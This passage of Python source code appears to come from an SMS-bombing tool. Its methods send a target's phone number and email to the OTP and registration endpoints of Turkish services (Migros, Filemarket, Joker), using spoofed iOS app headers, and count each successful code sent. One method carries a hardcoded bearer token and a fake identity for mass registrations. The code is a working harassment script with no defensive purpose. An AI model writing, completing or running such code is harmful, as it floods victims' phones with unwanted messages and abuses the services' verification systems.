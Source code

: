         
    #migros.com.tr
    def Migros(self):
        try:
            url = "https://rest.migros.com.tr:443/sanalmarket/users/register/otp"
            headers = {"User-Agent": "Migros/1917 CFNetwork/1335.0.3.4 Darwin/21.6.0", "X-Device-Model": "iPhone 31 Plus", "X-Device-Type": "MOBILE", "X-Device-App-Screen": "OTHER", "X-Device-Language": "tr-TR", "X-Device-App-Version": "10.6.13", "X-Device-Current-Long": "", "X-Request-Identifier": "FBE85947-6E31-49AC-AC8C-317B21D79E80", "X-Device-Selected-Address-Lat": "", "X-Device-Platform-Version": "15.8.0", "X-Device-Current-Lat": "", "X-Device-Platform": "IOS", "X-Store-Ids": "", "X-Device-Longitude": "", "Accept-Language": "tr-TR,tr;q=0.9", "Accept": "*/*", "Content-Type": "application/json", "X-Device-Latitude": "", "Accept-Encoding": "gzip, deflate, br", "X-Device-Selected-Address-Long": "", "X-Device-Identifier": "31CAAD3F-5B53-315B-9C6D-31310D86826C"}
            json={"email": self.mail, "phoneNumber": self.phone}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["successful"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> rest.migros.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> rest.migros.com.tr")


    #file.com.tr
    def File(self):
        try:
            url = "https://api.filemarket.com.tr:443/v1/otp/send"
            headers = {"Accept": "*/*", "Content-Type": "application/json", "User-Agent": "filemarket/2022060120013 CFNetwork/1335.0.3.2 Darwin/21.6.0", "X-Os": "IOS", "X-Version": "1.7", "Accept-Language": "en-US,en;q=0.9", "Accept-Encoding": "gzip, deflate"}
            json={"mobilePhoneNumber": f"90{self.phone}"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["responseType"] == "SUCCESS":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.filemarket.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.filemarket.com.tr")


    #joker.com.tr
    def Joker(self):
        try:
            url = "https://api.joker.com.tr:443/api/register"
            headers = {"Accept": "*/*", "Content-Type": "application/json", "Authorization": "Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpYXQiOjE2OTA3MTY1MjEsImV4cCI6MTY5NTkwMDUyMSwidXNlcm5hbWUiOiJHVUVTVDE2OTA3MTY1MjEzMzA3MzdAam9rZXIuY29tLnRyIiwiZ3Vlc3QiOnRydWV9.TaQA8ZDtmU09eFqOFATS8ubXM4BHPQL_BcgeEoqZfuNZcfjfL_xzqRO7fZehzWzEdjHXNXeCUTdjx76EyVB-b3TFuL3OahmrbeaOICD8MXchhMDv78TFhWzOJ9Ad-Mma6QPScSSVL0pYoQHWRhzaeOkmVeypqYiQKGmOEk9NzfOVxDYPa25iJmetiab1Z_b95Hqt5Cls52V7g4pGWmbjYB3gyeUQn5II6neKN174txp1yaGdrNPYwAk_aRJzoAMA1SisZm4rhjdE_9MeyGwjbgk2obPxEVcwvPPwkd56_a34aDOeo6rAvngGALBPWlS89nfHFb6PU2fKyK7jTaVlC0DiVnojlkC_KzoHcptM7SjQBym4Bn9CXZ4kj2J1Om-dhDymQynSCfmQ3JZQd7n1YdQYYMuAoTbjghZhyPu2SCtlI7ao6JhUUcmtO3fjIiyYgAdgD-FDcqSGAs9i5fn3kCidSku5M4ljq1ovJM4BeaNeQdFXqE_WqurpOeLA95fNumGCoXvJGlLhS5VzMdFT-l3cfdPt0V0WmtjJDRpTnosjgfizx4F5qftlVuF98uoFoexg7lQYHyZ-j455-d5B24_WfU8GCjQhtlDVtSTcMiRvUKEjJ-Glm5syv5VVbR7mJxu64SB2J2dPbHcIk6BQuFYXIJklN7GXxDa8mSnEZds", "Accept-Encoding": "gzip, deflate", "User-Agent": "Joker/4.0.14 (com.joker.app; build:2; iOS 15.7.7) Alamofire/5.4.3", "Accept-Language": "en-TR;q=1.0, tr-TR;q=0.9", "Connection": "close"}
            json={"firstName": "Memati", "gender": "m", "iosVersion": "4.0.2", "lastName": "Bas", "os": "IOS", "password": "31ABC..abc31", "phoneNumber": f"0{self.phone}", "username": self.mail}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["message"] == "Doğrulama kodu gönderildi.":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.joker.com.tr")
                self.adet += 1
            else:
                raise